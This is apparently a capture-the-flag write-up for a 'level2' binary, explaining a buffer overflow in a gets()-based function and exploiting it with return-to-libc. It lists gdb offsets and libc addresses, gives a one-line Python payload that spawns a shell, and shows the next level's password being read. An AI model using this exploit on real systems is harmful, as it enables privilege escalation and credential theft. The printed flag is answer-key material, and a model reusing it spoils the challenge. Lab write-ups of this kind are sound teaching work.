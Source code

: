 # Buffer Overflow (Return-to-libc / ROP)

The binary level2 has a function p() that uses gets(), which is unsafe because it doesn’t check input length. This allows us to overflow the buffer and overwrite the return address.

### gdb
Buffer size: 76 bytes (starts at -0x4c(%ebp)).

Saved %ebp: 4 bytes.

Return address location: %ebp + 4 (total offset = 80 bytes).

Return Address Integrity Check:

```bash
mov    0x4(%ebp), %eax   ; Get return address
and    $0xb0000000, %eax ; Check if it's in stack range (0xbxxxxxxx)
cmp    $0xb0000000, %eax
jne    continue          ; If not, continue
```


Solution: Use return-to-libc (ret2libc) to call system("/bin/sh").

2. Finding Key Addresses

```bash
gdb ./level2
(gdb) p system    # Get system() address
$1 = {<text variable, no debug info>} 0xb7e6b060
(gdb) p exit      # Get exit() address
$2 = {<text variable, no debug info>} 0xb7e5ebe0
(gdb) find &system,+9999999,"/bin/sh"  # Find "/bin/sh" in memory
0xb7f8cc58
(gdb) disas p     # Find a 'ret' instruction
0x0804853e <+106>: ret
Key Addresses (Little-Endian Format):
Function/String	Address (Hex)	Packed Format (for Exploit)
system()	0xb7e6b060	\x60\xb0\xe6\xb7
exit()	0xb7e5ebe0	\xe0\xeb\xe5\xb7
/bin/sh	0xb7f8cc58	\x58\xcc\xf8\xb7
ret	0x0804853e	\x3e\x85\x04\x08
```

3. Constructing the Exploit
We need to:

Overwrite the return address with a ret instruction (for stack alignment).

Call system("/bin/sh").

Exit cleanly with exit().

Payload Structure:
text
[80 bytes padding] + [ret addr] + [system addr] + [exit addr] + [/bin/sh addr]
Final Exploit Command:
```bash
(python -c "print('A'*80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')"; cat) | ./level2
whoami
level3
cd ../
pwd
/home/user
cd level3
cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```
